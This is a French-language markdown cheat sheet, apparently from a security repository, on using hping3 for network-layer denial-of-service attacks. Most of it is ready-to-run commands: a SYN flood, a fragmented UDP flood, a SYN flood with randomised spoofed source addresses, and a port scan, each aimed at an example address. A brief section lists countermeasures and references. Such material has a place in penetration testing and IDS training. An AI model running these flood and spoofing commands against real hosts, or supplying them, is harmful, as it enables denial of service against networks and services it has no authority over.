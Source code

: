 # 6. `docs/Couche3_Reseau/cheat-couche3.md`

```markdown
# Couche 3 (Réseau) – Hping3

**Attaque ciblée** : DDoS par fragmentation, flood TCP/UDP/ICMP

---

## Sommaire

1. [Introduction](#introduction)
2. [Installation & Pré-requis](#installation--pré-requis)
3. [Commandes Clés](#commandes-clés)
4. [Exemples d’Attaques](#exemples-dattaques)
5. [Limitations & Contre-mesures](#limitations--contre-mesures)
6. [Références & Ressources](#références--ressources)

---

## Introduction

**Hping3** est un outil de manipulation de paquets TCP/IP. Il permet :
- Le test de firewall (envoi de paquets filtrés, fragmentation, etc.).
- Les attaques DoS (SYN flood, UDP flood).
- L’analyse de performance ou de latence (traceroute, ping avancé).

---

## Installation & Pré-requis

- Sur Debian/Ubuntu :
  ```bash
  sudo apt update
  sudo apt install hping3
  ```

---

## Commandes Clés

### 1) SYN Flood
```bash
hping3 -S -p 80 --flood -d 1000 192.168.1.1
```
- `-S` : flag SYN.  
- `--flood` : envoi en continu sans attendre réponse.  
- `-d 1000` : taille du paquet (payload).

### 2) UDP Flood avec fragmentation
```bash
hping3 --udp -p 53 --frag -d 2000 --flood 192.168.1.1
```
- `--udp` : mode UDP.  
- `--frag` : fragmentation.  
- `-d 2000` : 2000 octets de payload.

### 3) IP Spoofing (adresses sources aléatoires)
```bash
hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.1.1
```
- `-c 10000` : nombre de paquets à envoyer.  
- `--rand-source` : génère des adresses IP sources aléatoires.

---

## Exemples d’Attaques

- **Découverte de ports** :  
  ```bash
  hping3 -S <IP_CIBLE> --scan 1-1000
  ```
- **Évasion de firewall** : en fragmentant les paquets ou en modifiant les flags.  
- **Simulation de trafic malveillant** pour tester un IDS/IPS.

---

## Limitations & Contre-mesures

- **Limites** :  
  - L’efficacité d’un flood dépend de la bande passante de l’attaquant.  
  - Les routeurs/firewalls modernes détectent souvent ce type de pattern.

- **Contre-mesures** :  
  - Déployer des solutions anti-DDoS (limitation de rate, filtrage de paquets).  
  - Surveiller les logs (syslog, IDS) pour repérer une charge inhabituelle.

---

## Références & Ressources

- [Site Officiel d’Hping3](http://www.hping.org/)  
- [GitHub hping](https://github.com/antirez/hping)  
- [RFC 791 (IP)](https://tools.ietf.org/html/rfc791)  
- [RFC 793 (TCP)](https://tools.ietf.org/html/rfc793)
